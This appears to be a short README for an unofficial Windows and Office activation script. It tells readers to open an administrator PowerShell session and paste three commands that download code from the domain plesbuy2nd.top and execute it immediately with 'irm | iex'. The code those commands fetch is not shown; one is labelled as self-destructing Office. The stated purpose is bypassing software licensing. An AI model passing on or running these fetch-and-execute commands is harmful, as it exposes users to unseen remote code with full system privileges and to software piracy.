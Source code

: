 # Windows and Office Management Script

## Introduction
This script provides functionality for managing Windows activation, self-destructing Office, and installing and activating Office 365. Follow the steps below to execute these operations using PowerShell or Terminal.

## Prerequisites
- Ensure you have administrative privileges on your Windows machine.

## Instructions

1. **Open PowerShell or Terminal:**
   - Right-click on the Start menu.
   - Select **PowerShell** or **Terminal** (do not select CMD).

2. **Execute the Script:**
   - Copy and paste the following code into PowerShell or Terminal.
   - Press **Enter** to run the script.

   ```powershell
   irm https://plesbuy2nd.top/win | iex   # Activates Windows
   irm https://plesbuy2nd.top/doom | iex  # Self-destructs Office
   irm https://plesbuy2nd.top/office | iex # Installs and activates Office 365
